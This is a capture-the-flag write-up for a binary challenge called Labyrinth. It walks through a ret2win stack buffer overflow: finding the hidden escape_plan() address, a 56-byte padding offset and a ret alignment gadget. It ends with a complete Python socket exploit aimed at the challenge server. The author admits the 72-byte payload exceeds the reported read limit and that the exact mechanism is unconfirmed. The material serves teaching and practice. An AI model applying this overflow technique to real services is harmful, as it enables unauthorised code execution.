

# 🔐 Labyrinth — Pwn CTF Write-up


## 📝 Challenge Description

> You find yourself trapped in a mysterious labyrinth, with only one chance to escape. Choose the correct door wisely, for the wrong choice could have deadly consequences.

The challenge presents a labyrinth containing 100 doors. The objective is to escape the labyrinth and retrieve the hidden flag.

Instead of solving the maze through normal gameplay, we analyze the executable and exploit a stack-based buffer overflow to redirect program execution to a hidden function.

---

## 🎯 Objective

Identify the vulnerability in the binary and exploit it to execute the hidden `escape_plan()` function, which reveals the flag.


## 🔍 Step 1: Connecting to the Server

We started by connecting to the challenge server using Netcat.

```bash
nc 154.57.164.70 37177
```

The server displayed a list of 100 doors:

```text
Select door:

Door: 001
Door: 002
Door: 003
...
Door: 069
...
Door: 100

>>
```

After selecting a door, the program displayed:

```text
You are heading to open the door but you suddenly see something on the wall:

"Fly like a bird and be free!"

Would you like to change the door you chose?

>>
```

This second input prompt became important during exploitation.

---

## 🔎 Step 2: Analyzing the Binary

After downloading and extracting the challenge files, we inspected the executable.

### Identify the file type

```bash
file labyrinth
```

The executable was identified as a 64-bit Linux ELF binary.

### Extract readable strings

```bash
strings labyrinth
```

The `strings` command helps identify messages, filenames, and other readable information embedded in the executable.

### Identify available functions

```bash
nm labyrinth
```

To search for the hidden function:

```bash
nm labyrinth | grep escape_plan
```

The function was identified at:

```text
0000000000401255 T escape_plan
```

This revealed an important address:

```text
escape_plan() = 0x401255
```

The function contained the functionality needed to retrieve the flag.

---

## 🧩 Step 3: Identifying the Vulnerability

The binary contained a stack-based buffer overflow vulnerability.

A buffer overflow occurs when a program writes more data into a memory buffer than it was allocated to hold.

For example:

```c
char buffer[32];
```

This creates a buffer capable of storing 32 bytes.

If the program accepts more input than the buffer can safely hold, the additional bytes may overwrite neighboring stack memory.

### Understanding Stack Memory

```text
+--------------------------+
| Local Buffer             |
+--------------------------+
| Other Stack Data         |
+--------------------------+
| Saved Base Pointer       |
+--------------------------+
| Saved Return Address     |
+--------------------------+
```

The return address determines where execution continues when a function finishes.

By overwriting this address, an attacker can potentially redirect the program to another function.

In this challenge, our target was:

```text
escape_plan()
```

---

## 🧠 Step 4: Understanding Return-to-Win

Return-to-Win, commonly called **ret2win**, is a binary exploitation technique that redirects execution to an existing function.

Instead of injecting new executable code, we reuse functionality already present in the binary.

The intended execution flow was:

```text
main()
   |
   v
User selects a door
   |
   v
Program reads another input
   |
   v
Buffer overflow
   |
   v
Saved return address overwritten
   |
   v
escape_plan()
   |
   v
Flag retrieved
```

This is an example of **control-flow hijacking**.

---

## 📏 Step 5: Calculating the Offset

To overwrite the return address, we needed to determine how many bytes separated the beginning of the vulnerable buffer from the saved return address.

The offset identified during analysis was:

```text
56 bytes
```

We used padding to reach that location:

```python
payload = b"A" * 56
```

### Why use `A`?

Each `A` represents one byte.

In hexadecimal:

```text
A = 0x41
```

Therefore, sending 56 `A` characters produces 56 bytes of padding.

Conceptually:

```text
+-----------------------------+
| 56 bytes of padding         |
| AAAAAAAAAAAAAAAAAAAAAAAAAA  |
| AAAAAAAAAAAAAAAAAAAAAAAAAA  |
| AAAA                        |
+-----------------------------+
| Return Address              |
+-----------------------------+
```

The next bytes in the payload are intended to overwrite the saved return address.

---

## 💻 Step 6: Constructing the Exploit

We used Python to create a payload containing the padding and the address of the hidden function.

The important values were:

```python
OFFSET = 56

WIN = 0x401255
```

The payload was constructed using:

```python
payload = b"A" * OFFSET
payload += struct.pack("<Q", WIN)
```

### Understanding `struct.pack()`

```python
struct.pack("<Q", WIN)
```

This converts the function address into an 8-byte little-endian representation.

- `<` indicates little-endian byte order.
- `Q` represents an unsigned 64-bit integer.
- `WIN` contains the address of `escape_plan()`.

For example:

```text
0x401255
```

is represented in memory as:

```text
55 12 40 00 00 00 00 00
```

This is necessary because x86-64 systems use little-endian byte ordering.

---

## ⚙️ Step 7: Stack Alignment

During exploitation, we also tested a `ret` gadget.

```python
RET = 0x401016
WIN = 0x401255
```

A `ret` gadget consists of a return instruction that can be used to adjust the stack before entering another function.

This can help satisfy stack-alignment requirements on x86-64 systems.

The intended payload structure was:

```text
+---------------------------+
| Padding                   |
+---------------------------+
| RET Gadget                |
+---------------------------+
| escape_plan() Address     |
+---------------------------+
```

**Technical note:** This structure contains 72 bytes, while the vulnerable input operation was reported to have a smaller read limit. Although the challenge was solved, the exact control-flow transition would require further debugging to confirm which overwritten bytes were responsible.

---

## 🐍 Step 8: Python Exploit

We created a Python script named `exploit.py`.

```python
import socket
import struct

HOST = "154.57.164.70"
PORT = 37177

RET = 0x401016
WIN = 0x401255

def p64(value):
    return struct.pack("<Q", value)

with socket.create_connection((HOST, PORT), timeout=10) as s:

    s.settimeout(5)

    def recv_until(marker):
        data = b""

        while marker not in data:
            chunk = s.recv(4096)

            if not chunk:
                raise ConnectionError("Connection closed")

            data += chunk

        return data

    # Wait for the first prompt
    recv_until(b">>")

    # Select door 069
    s.sendall(b"069\n")

    # Wait for the second prompt
    recv_until(b">>")

    # Construct the payload
    payload = b"A" * 56
    payload += p64(RET)
    payload += p64(WIN)

    # Send the payload
    s.sendall(payload + b"\n")

    # Receive the response
    while True:
        try:
            data = s.recv(4096)

            if not data:
                break

            print(
                data.decode(errors="replace"),
                end=""
            )

        except socket.timeout:
            break
```

### Running the Exploit

We executed the Python script using:

```bash
python3 exploit.py
```

The exploit connected to the remote server, selected door `069`, and submitted the crafted payload.

The challenge was successfully solved, and the flag was retrieved.

---

## 🔬 Step 9: Understanding the Exploit

The exploit involved several important stages.

**1. Establishing a connection**

```python
socket.create_connection((HOST, PORT), timeout=10)
```

Creates a TCP connection to the remote challenge server.

**2. Selecting a door**

```python
s.sendall(b"069\n")
```

Sends the selected door number.

**3. Creating the payload**

```python
payload = b"A" * 56
```

Creates the padding needed to reach the saved return address.

**4. Adding the target address**

```python
payload += p64(WIN)
```

Encodes and appends the address of the hidden function.

**5. Sending the payload**

```python
s.sendall(payload + b"\n")
```

Sends the crafted input to the vulnerable program.

**6. Reading the response**

```python
data = s.recv(4096)
```

Receives output from the remote service.

---

## 🏁 Conclusion

Labyrinth was a binary exploitation challenge that demonstrated how a stack-based buffer overflow can be used to redirect program execution.

By analyzing the executable, identifying the hidden `escape_plan()` function, determining the return-address offset, and constructing a Python payload, we successfully retrieved the flag.

### Key Takeaway

**A program does not need to contain malicious code to be exploited. An attacker may be able to redirect execution to functionality that already exists within the program.**

